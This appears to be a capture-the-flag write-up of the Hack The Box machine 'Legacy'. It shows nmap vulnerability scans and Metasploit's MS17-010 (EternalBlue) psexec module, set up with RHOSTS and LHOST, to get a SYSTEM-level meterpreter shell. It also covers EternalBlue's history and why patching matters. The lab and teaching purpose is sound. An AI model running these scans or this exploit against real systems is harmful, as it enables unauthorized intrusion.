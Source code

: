 # Legacy Walkthrough

I have been going back and re-doing retired boxes on Hack The Box, with a focus on writing up the process of compromising each box. For flavour, I'm also providing a bit of commentary around thinking through the attack from the attacker's perspective, as well as thinking about it from a system administrator/business owner perspective.

##The Mission

Hack The Box is a platform to learn and practice penetration testing techniques. Hack The Box makes virtual machines ("boxes") available for users to scan and exploit. It is ultimately a "capture the flag"-type of game, with the goal being to find and retrieve two "flags" or strings, one which can be accessed by a regular user on the box (the "user flag") and one that can only be accessed by the root user (the "root flag").

## The Target
![Legacy Info Card](/Legacy/images/1-Legacy-Info-Card.PNG)

Today, we're going to take on the Legacy box. It is an easy Windows box and would provide a great introduction to penetration testing for anyone interested in learning.

## The Setup

I am a believer in the the saying (often attributed to Abraham Lincoln) "if I had eight hours to chop down a tree, I’d spend six sharpening my axe". However, in this case, we're going to substitute "chop down a tree" for "hack a box" and "six hours sharpening my axe" for "countless hours tweaking and customizing my systems". I'm sure Honest Abe would be proud.

Throughout my time on the Hack The Box platform, I have found that sometimes boxes require tools you don't have, or versions of tools you can't find easily. For this reason, I prefer to keep a number of virtual machines around, including Kali, Parrot, and BlackArch. Although this works great, it would be nice if I wasn't maintaining ~25 virtual machines (although Vagrant is a huge help for this).

If you spend any time on forums discussing penetration testing, you'll see that I'm not the only one torn between different operating systems. Questions like "What is the best distribution for hacking?" or "Should I use Kali or Parrot" are posted on almost a daily basis. To this, I say: why choose?

![Bedrock Strata](/Legacy/images/2-Bedrock-Strata.PNG)

To spice up our attack on Legacy, I'm going to try a different system that isn't frequently discussed in the penetration testing community. I'm running a customized version of Bedrock Linux in a virtual machine on a Windows 10 host, with Kali Linux and BlackArch in their own strata.

Why is this awesome?

This means that we can use tools like `nmap` from Blackarch, Kali, or Ubuntu (or any other distribution)! Admittedly, using this setup on the Legacy box will be like swatting a fly with a truck, but if you enjoy having a really sharp axe, you should definitely check out [Bedrock Linux](https://bedrocklinux.org/).

Let's put it to work.

## The Hack
### Enumerating Legacy

We want to get some information about Legacy. We know that it is running Windows and we know that it has an IP address of 10.10.10.4. Beyond this, it would be helpful to know what ports are open on the box and what services are running. I normally do this in two stages. First, we can run a quick scan with nmap to get a sense of what we will be dealing with. To do this, we will run `sudo nmap -sC -sV 10.10.10.4`.

Second (in the background), we will also run a more fulsome scan with nmap with `sudo nmap -p- -sV -sC -O -A -T4 -v --script vuln 10.10.10.4`. This scan will go through and use the Nmap Scripting Engine to check for vulnerabilities on the box. However, this takes some time, so we'll let it run in the background for now.

Our quick scan will give us the following output:

![Quick Nmap Scan](/Legacy/images/3-Quick-Nmap.PNG)

The quick scan will let us get started while we wait for the longer scan to finish. We can see that we have a couple of ports open, including 139 and 445. Interestingly, it looks like Legacy is likely running SMB on Windows XP. This should immediately be a red flag since Windows XP is an out of date operating system and is no longer supported.

Our longer scan will eventually come back and report a number of findings:

![Long Nmap Scan](/Legacy/images/4-Nmap-Long-Scan.PNG)

### Thinking About the Scan

Our fulsome nmap scan revealed some interesting results. Notably, nmap appears to be reporting that the box is vulnerable to two remote code execution vulnerabilities, CVE-2017-0143 and CVE-2008-4250. CVE-2017-0143 is a relatively well-known vulnerability in Microsoft SMBv1, which is subject to the (in)famous [EternalBlue exploit](https://www.wikiwand.com/en/EternalBlue).

I highly recommend reading up on the history of EternalBlue (and the other "Eternal" exploits) and how it has been used since being developed. In short, the NSA identified a vulnerability in Microsoft SMB servers and developed the EternalBlue exploit. The NSA kept it hidden for a number of years until the NSA became aware of the fact that the exploit had been leaked. The NSA warned Microsoft in 2017 about the existence of the SMB vulnerability, and Microsoft released patches for it. As is commonly the case, many people and organizations did not implement the patches, leaving them vulnerable to this exploit.

The EternalBlue exploit was then distributed by the hacker group known as The Shadow Brokers. This exploit was then incorporated into and used by the [WannaCry ransomware](https://www.wikiwand.com/en/WannaCry_ransomware_attack), which locked down computers all across the world.

Putting on a legal/business hat, this is where the rubber hits the road on your IT service agreements and your internal policies. Patches need to be regularly implemented. Sometimes, this means weighing the security risks of leaving a vulnerability unpatched against the risk of implementing a patch that has not been carefully tested in a test environment. Well-defined change control procedures and security policies can assist with this process. Internal policies regarding asset management and tracking can help speed up patching. Regular vulnerability scanning can also help ward against these threats.

Even though the world had a hard lesson in patching with the rise of EternalBlue and WannaCry, failures to patch are still a common issue, as evidenced by the January 14, 2020 end of life for Windows 7. Many organizations waited until the last moment to migrate off of Windows 7, with some failing to migrate off of Windows 7 altogether.

Let's demonstrate why failing to patch is a problem.

### Getting the Root Flag

Those who have been carefully reading this post might be slightly surprised at this section title. Normally, you get a foothold in the target system, enumerate the system further to find a path to escalate your privileges, and then--after compromising the administrator account--you can get the root flag. That won't be necessary here since we're going to fully compromise the system in one step.

Both CVE-2017-0143 and CVE-2008-4250 would be viable paths forward to compromising the box. Since we have been discussing EternalBlue, let's demonstrate how it works. By simply googling "MS17-010 exploit", we can see from the first result that there is a metasploit module for this vulnerability.

Start Metasploit with `msfconsole`:

![Metasploit](/Legacy/images/5-Metasploit.PNG)

We can search through the modules using the command `search ms17-010`, `search eternalblue`, or `search CVE-2017-0143`. Each of these searches return the same results.

![Metasploit Search](/Legacy/images/6-Metasploit-Search.PNG)

We have a few different exploits come up. Module #4 on our list is the exploit that came up in our google search. Let's load it up with the command `use exploit/windows/smb/ms17_010_psexec`.

We can then check the available options with the command `options`. We would then set the necessary settings (which in this case is `RHOSTS` and `LHOST`). `RHOSTS` are the target(s), which in this case is 10.10.10.4. `LHOST` is your local host, or your attacking machine. In this case, we will set it to our own IP address on the Hack The Box network (alternatively, you can set this value to `tun0`). So we would run:
```
set RHOSTS 10.10.10.4
set LHOST [Your Hack The Box IP Address or "tun0"]
```
Re-running the `options` command, you can check to make sure you put everything in correctly:

![Metasploit Options](/Legacy/images/7-Metasploit-Options.PNG)

We can run the check command now to see if the exploit is likely to work:

![Metasploit Check](/Legacy/images/8-Metasploit-Check.PNG)

Since it appears that this exploit should be effective, we can initiate the exploit by typing `run`:

![Metasploit Exploit](/Legacy/images/9-Metasploit-Exploit.PNG)

And it worked! We have a meterpreter shell that is communicating back to the box. Meterpreter has its own set of commands, including getuid, which allows us to see which user we are running as. Running this command, we can see that we are `NT AUTHORITY\SYSTEM`, which is the LocalSystem account and is the most powerful account on a local Windows instance.

![Getuid](/Legacy/images/10-Getuid.PNG)

We can drop into a shell on the box using the command shell. After looking around for a short time, we can locate both the root and the user flags. Since we have administrator privileges on the box, we can read both without any issue.

![Flags](/Legacy/images/11-Flags.PNG)

And we're done!

## Wrapping Up

The ease at which we could exploit Legacy shows why malware such as WannaCry was so pervasive. This is why patching is so important!
